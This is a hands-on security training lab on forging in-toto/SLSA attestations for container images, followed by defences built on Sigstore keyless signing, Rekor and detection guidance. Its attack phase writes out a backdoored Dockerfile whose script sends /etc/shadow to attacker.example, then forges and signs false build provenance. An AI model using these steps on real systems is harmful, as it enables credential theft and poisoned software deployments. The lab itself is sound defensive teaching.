

# Lab 4.6: Attestation Forgery

<div class="lab-meta">
  <span>~40 minutes</span>
  <span>Advanced</span>
  <span>Prerequisites: <a href="4.4-attestation-slsa.md">Lab 4.4</a></span>
</div>

In [Lab 4.4](4.4-attestation-slsa.md) you learned that attestations are signed claims about how an artifact was built. The critical word is *signed*. If an attacker controls the signing key, they control the claim. They can generate a perfectly valid in-toto attestation that says "this artifact was built by GitHub Actions from the main branch". even if they built it on their laptop with a backdoor injected.

This lab puts you in the attacker's seat. You will forge an attestation for a malicious artifact, pass signature verification, and then learn how keyless signing with Sigstore and transparency logs make forgery detectable.

---

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Workstation | `weaklink-ws` | Has cosign, slsa-verifier, in-toto, rekor-cli, jq |
| Registry | `registry:5000` | Contains images with real and forged attestations |

## Connect to the Workstation

```bash
./weaklink shell
```

### Workstation Terminal

Use the embedded terminal below, or open a separate terminal and run `./cli/weaklink shell`.

<div class="terminal-embed">
  <iframe src="http://localhost:7681" title="WeakLink Workstation Terminal"></iframe>
</div>

---

???+ info "Phase 1: UNDERSTAND. What Attestations Claim and How They Are Verified"

    **Goal:** Understand the structure of in-toto attestations and what makes them trustworthy (or not).

### Step 1: Examine a legitimate attestation

```bash
cosign download attestation registry:5000/webapp:signed | jq -r '.payload' | base64 -d | jq .
```

An in-toto attestation has three key parts:

- **`_type`**. always `https://in-toto.io/Statement/v0.1`
- **`subject`**. the artifact (identified by digest) this attestation applies to
- **`predicate`**. the claim: who built it, from what source, using which builder

### Step 2: Inspect the predicate

```bash
cosign download attestation registry:5000/webapp:signed \
  | jq -r '.payload' | base64 -d | jq '.predicate'
```

For a SLSA provenance attestation, the predicate includes:

| Field | Meaning |
|-------|---------|
| `builder.id` | The CI system that built the artifact (e.g., `https://github.com/actions/runner`) |
| `buildType` | The type of build process |
| `invocation.configSource` | The source repo, branch, and commit that triggered the build |
| `materials` | Input artifacts (base images, dependencies) with their digests |

### Step 3: Understand the trust model

The attestation is signed. But *who* signed it?

```bash
cosign verify-attestation --key cosign.pub registry:5000/webapp:signed | jq .
```

With key-based signing, trust depends entirely on the private key. If you trust the key, you trust the attestation. If the key is compromised or the attacker generates their own key pair, all bets are off.

### Step 4: See what slsa-verifier checks

```bash
slsa-verifier verify-image registry:5000/webapp:signed \
  --source-uri github.com/org/webapp \
  --builder-id https://github.com/actions/runner 2>&1 || true
```

The SLSA verifier checks that the attestation was signed by the expected builder identity. With key-based signing, this check only works if you have the right public key and the attacker does not.

---

???+ warning "Phase 2: BREAK. Forge an Attestation for a Malicious Artifact"

    **Goal:** Create a convincing in-toto attestation for a backdoored image and pass signature verification.

### Step 1: Build a backdoored image

```bash
cat > /tmp/Dockerfile.backdoor << 'EOF'
FROM registry:5000/webapp:signed
RUN echo '#!/bin/sh' > /usr/local/bin/update && \
    echo 'curl http://attacker.example/exfil?data=$(cat /etc/shadow | base64)' >> /usr/local/bin/update && \
    chmod +x /usr/local/bin/update
EOF

docker build -f /tmp/Dockerfile.backdoor -t registry:5000/webapp:backdoor .
docker push registry:5000/webapp:backdoor
MALICIOUS_DIGEST=$(crane digest registry:5000/webapp:backdoor)
echo "Malicious image digest: $MALICIOUS_DIGEST"
```

### Step 2: Generate an attacker key pair

```bash
cosign generate-key-pair --output-key-prefix attacker
```

This gives you `attacker.key` (private) and `attacker.pub` (public). The attacker's key is cryptographically indistinguishable from a legitimate key. there is no authority that certifies which keys are "real."

### Step 3: Craft the forged attestation

```bash
cat > /tmp/forged-attestation.json << EOF
{
  "_type": "https://in-toto.io/Statement/v0.1",
  "subject": [
    {
      "name": "registry:5000/webapp",
      "digest": {
        "sha256": "$(echo $MALICIOUS_DIGEST | sed 's/sha256://')"
      }
    }
  ],
  "predicateType": "https://slsa.dev/provenance/v0.2",
  "predicate": {
    "builder": {
      "id": "https://github.com/actions/runner"
    },
    "buildType": "https://github.com/actions/runner/github-hosted",
    "invocation": {
      "configSource": {
        "uri": "git+https://github.com/org/webapp@refs/heads/main",
        "digest": {"sha1": "abc123def456"},
        "entryPoint": ".github/workflows/build.yml"
      }
    },
    "materials": [
      {
        "uri": "pkg:docker/alpine@3.19",
        "digest": {"sha256": "fake-but-looks-real"}
      }
    ]
  }
}
EOF
```

This attestation claims the backdoored image was built by GitHub Actions from the `main` branch. Every field is a lie, but the JSON structure is valid.

### Step 4: Sign the forged attestation

```bash
cosign attest --key attacker.key --predicate /tmp/forged-attestation.json \
  --type slsaprovenance registry:5000/webapp:backdoor
```

### Step 5: Verify. it passes

```bash
cosign verify-attestation --key attacker.pub registry:5000/webapp:backdoor | jq .
```

Verification succeeds. The signature is mathematically valid. The attestation claims this was built by GitHub Actions. A consumer who trusts the attacker's public key (or who accepts *any* valid signature) will deploy the backdoored image.

### Step 6: Document the attack

```bash
cat > /app/findings.txt << 'EOF'
Attestation Forgery Attack
============================
1. Built a backdoored image from the legitimate base
2. Generated a new cosign key pair (attacker-controlled)
3. Crafted an in-toto attestation claiming GitHub Actions built the image
4. Signed the attestation with the attacker key
5. Verification passed using the attacker's public key

Root cause: Key-based attestation verification trusts whoever controls the key.
There is no binding between the key and a specific CI identity.
EOF
```

---

???+ success "Phase 3: DEFEND. Keyless Signing and Transparency Logs"

    **Goal:** Use Sigstore's keyless signing to bind attestations to verified OIDC identities and make forgery publicly detectable.

### Defense 1: Keyless signing with Sigstore

Instead of managing key pairs, use Sigstore's keyless flow. The signer authenticates via OIDC (e.g., GitHub Actions' OIDC token), and the signing event is logged in a public transparency log (Rekor).

```bash
# In a GitHub Actions workflow, cosign uses the ambient OIDC token
# No private key needed -- identity comes from the OIDC provider
COSIGN_EXPERIMENTAL=1 cosign attest --predicate /tmp/attestation.json \
  --type slsaprovenance registry:5000/webapp:latest
```

The resulting attestation contains:

- The OIDC issuer (`https://token.actions.githubusercontent.com`)
- The workflow identity (`https://github.com/org/webapp/.github/workflows/build.yml@refs/heads/main`)
- A Rekor transparency log entry with a timestamp

### Defense 2: Verify builder identity, not just signature validity

```bash
cosign verify-attestation \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com \
  --certificate-identity-regexp "https://github.com/org/webapp/" \
  registry:5000/webapp:latest
```

This checks three things:

1. The attestation signature is valid
2. The signer's OIDC token came from GitHub Actions (not an attacker's IdP)
3. The workflow identity matches the expected repository

An attacker cannot forge this because they cannot obtain a valid OIDC token from GitHub Actions for your repository.

### Defense 3: Check the transparency log

```bash
rekor-cli search --sha $MALICIOUS_DIGEST
rekor-cli get --uuid <log-entry-uuid> | jq .
```

Every keyless signing event is recorded in the Rekor transparency log. This provides:

- **Public auditability**. anyone can verify when an artifact was signed and by whom
- **Non-repudiation**. the signer cannot deny they signed it (the OIDC token is logged)
- **Tamper detection**. log entries cannot be removed without detection (Merkle tree structure)

### Defense 4: SLSA verifier with source pinning

```bash
slsa-verifier verify-image registry:5000/webapp:latest \
  --source-uri github.com/org/webapp \
  --source-tag v1.2.3 \
  --builder-id https://github.com/slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml
```

The SLSA verifier validates not just the signature but the entire provenance chain: builder identity, source repository, source ref, and build configuration.

### Step 5: Verify the lab

Run the verification from your host terminal:

```bash
weaklink verify 4.6
```

---

??? danger "Phase 4: DETECT. Spotting Forged or Suspicious Attestations"

    **Goal:** Detect when attestations are forged, signed by unexpected identities, or missing transparency log entries.

### SIEM / Log Indicators

The key signal is **attestation verification that relies on key-based trust without OIDC identity binding**, or **attestations that claim a builder identity but have no corresponding transparency log entry**.

**What to look for:**

- Attestation verification using a raw public key instead of OIDC issuer + identity constraints
- Attestations where the `builder.id` does not match the actual signing identity
- Signing events with no corresponding Rekor transparency log entry
- Attestations for images that were pushed outside of CI pipeline execution windows
- Multiple attestations for the same digest signed by different identities

### Network Indicators

| Indicator | What It Means |
|-----------|---------------|
| `cosign attest` from a developer workstation IP | Someone is creating attestations outside of CI. potential forgery |
| Missing Rekor log entry for a signed artifact | Signing happened offline or with `--no-tlog-upload`. cannot verify timing |
| OIDC issuer mismatch in attestation certificate | Attestation signed by a different identity provider than expected |
| Attestation `builder.id` claims GitHub Actions but OIDC issuer is not `token.actions.githubusercontent.com` | Builder identity is forged |

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Forge Web Credentials** | [T1606](https://attack.mitre.org/techniques/T1606/) | Attacker creates a valid cryptographic signature (attestation) that impersonates a trusted builder identity |
| **Subvert Trust Controls: Code Signing** | [T1553.002](https://attack.mitre.org/techniques/T1553/002/) | Forged attestation bypasses signature-based trust controls that gate deployment |

---

??? tip "SOC Relevance"

    **Alert you will see:** "Attestation signer identity does not match expected builder" or "Attestation missing transparency log entry"

    Attestation forgery is particularly dangerous because it bypasses the strongest verification controls. If your policy is "only deploy signed and attested artifacts," an attacker who can forge attestations has carte blanche.

    **Triage steps:**

    1. Check the OIDC issuer and signer identity in the attestation certificate. does it match the expected CI system?
    2. Search Rekor for the signing event. if it's not in the transparency log, the attestation may have been created offline
    3. Compare the attestation's `configSource.uri` against the actual repository. does the claimed source repo exist and match?
    4. Check the timestamp of the signing event against CI pipeline execution logs. was there a build running at that time?
    5. If the attestation was signed with a raw key (not keyless), identify who controls the key and whether it could have been compromised
    6. If forgery is confirmed, quarantine the artifact, revoke the signing key (if key-based), and audit all artifacts signed by the same identity

---

??? example "CI Integration"

    Add this to your pipeline to enforce keyless attestation verification with identity binding.

    **`.github/workflows/attestation-verify.yml`:**

    ```yaml
    name: Attestation Verification Gate

    on:
      deployment:
      workflow_dispatch:
        inputs:
          image:
            description: "Image reference to verify"
            required: true

    jobs:
      verify-attestation:
        runs-on: ubuntu-latest
        steps:
          - name: Install tools
            run: |
              curl -sL https://github.com/sigstore/cosign/releases/latest/download/cosign-linux-amd64 -o /usr/local/bin/cosign
              chmod +x /usr/local/bin/cosign
              curl -sL https://github.com/slsa-framework/slsa-verifier/releases/latest/download/slsa-verifier-linux-amd64 -o /usr/local/bin/slsa-verifier
              chmod +x /usr/local/bin/slsa-verifier

          - name: Verify attestation with OIDC identity
            env:
              IMAGE: ${{ inputs.image || vars.DEPLOY_IMAGE }}
            run: |
              echo "Verifying attestation for $IMAGE"

              # Verify the attestation was signed by GitHub Actions
              cosign verify-attestation \
                --certificate-oidc-issuer https://token.actions.githubusercontent.com \
                --certificate-identity-regexp "https://github.com/${{ github.repository_owner }}/" \
                --type slsaprovenance \
                "$IMAGE"

              echo "Attestation verification passed -- signer identity confirmed"

          - name: Verify SLSA provenance
            env:
              IMAGE: ${{ inputs.image || vars.DEPLOY_IMAGE }}
            run: |
              slsa-verifier verify-image "$IMAGE" \
                --source-uri "github.com/${{ github.repository }}" \
                --builder-id "https://github.com/slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml"

              echo "SLSA provenance verification passed"

          - name: Check Rekor transparency log
            env:
              IMAGE: ${{ inputs.image || vars.DEPLOY_IMAGE }}
            run: |
              DIGEST=$(crane digest "$IMAGE" 2>/dev/null || docker inspect --format='{{index .RepoDigests 0}}' "$IMAGE" | cut -d@ -f2)
              ENTRIES=$(rekor-cli search --sha "${DIGEST#sha256:}" 2>/dev/null | wc -l)
              if [ "$ENTRIES" -eq 0 ]; then
                echo "::error::No Rekor transparency log entry found for $DIGEST"
                exit 1
              fi
              echo "Found $ENTRIES transparency log entries for $DIGEST"
    ```

---

## What You Learned

1. **Key-based attestation signing is only as strong as the key**. if an attacker generates their own key pair, they can forge any attestation and pass verification.
2. **Forged attestations are structurally valid**. the JSON, the signature, and the verification all work. The lie is in the content, not the cryptography.
3. **Keyless signing with Sigstore binds identity to attestations**. the OIDC token from GitHub Actions (or another CI provider) proves who actually signed, not just that a valid key was used.
4. **Transparency logs make forgery detectable**. Rekor records every signing event with a timestamp and signer identity. Missing or inconsistent entries are a red flag.
5. **Verify builder identity, not just signature validity**. use `--certificate-oidc-issuer` and `--certificate-identity` to ensure the attestation came from the expected CI system.

## Further Reading

- [Sigstore: Software signing for everyone](https://www.sigstore.dev/)
- [in-toto Attestation Framework](https://github.com/in-toto/attestation)
- [SLSA Provenance Specification](https://slsa.dev/provenance/v1)
- [Rekor Transparency Log](https://docs.sigstore.dev/logging/overview/)
- [Cosign keyless signing](https://docs.sigstore.dev/signing/quickstart/)
- [SLSA GitHub Generator](https://github.com/slsa-framework/slsa-github-generator)
